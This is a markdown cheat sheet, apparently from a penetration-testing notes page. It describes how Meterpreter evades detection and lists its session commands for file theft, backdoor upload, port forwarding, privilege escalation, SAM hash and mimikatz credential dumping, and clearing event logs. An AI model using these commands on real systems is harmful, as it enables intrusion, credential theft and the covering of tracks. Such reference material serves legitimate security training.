 

## How Meterpreter Works

- **In-memory execution** → Does not touch the disk, reducing AV detection.  
- **Encrypted communication** → Uses TLS/SSL or other secure channels to evade IDS/IPS.  
- **Modular** → Extensions can be dynamically loaded (e.g., `priv`, `stdapi`, `kiwi`).  
- **Flexible transports** → Supports reverse TCP, reverse HTTP/S, staged or stageless payloads.  

Your decision on which Meterpreter to use depends on:
1. **Target OS** → Windows, Linux, macOS, Android.  
2. **Available components** → Python/Java/PHP present?  
3. **Network conditions** → TCP vs HTTPS reverse shell, IPv4 vs IPv6 stealth.  

---

## Meterpreter Commands

### 🔹 Core Commands
- `background` → Background the session  
- `exit` → Close session  
- `migrate` → Move Meterpreter to a stable process (e.g., `explorer.exe`)  
- `sessions -i <id>` → Switch between sessions  

---

### 🔹 File System
- `ls`, `cd`, `pwd` → Navigate target’s filesystem  
- `download secret.txt` → Download files  
- `upload backdoor.exe` → Upload files  
- `search -f *.docx` → Search for sensitive files  

---

### 🔹 Networking
- `ifconfig` / `ipconfig` → View network interfaces  
- `netstat` → View active connections  
- `portfwd add -l 8080 -p 80 -r 10.0.0.5` → Forward local port 8080 to target’s port 80  
- `arp` → View ARP cache (can reveal other targets on LAN)  

---

### 🔹 System
- `sysinfo` → OS + hostname info  
- `getuid` → Current user context  
- `ps` → List processes  
- `kill <pid>` → Kill a process  
- `reboot` / `shutdown` → Restart/turn off target  

---

### 🔹 Privilege & Credential Stuff
- `getsystem` → Try privilege escalation to SYSTEM  
- `hashdump` → Dump SAM hashes  
- `load kiwi` → Load mimikatz module for credential extraction  
- `clearev` → Clear event logs (cover tracks)  

---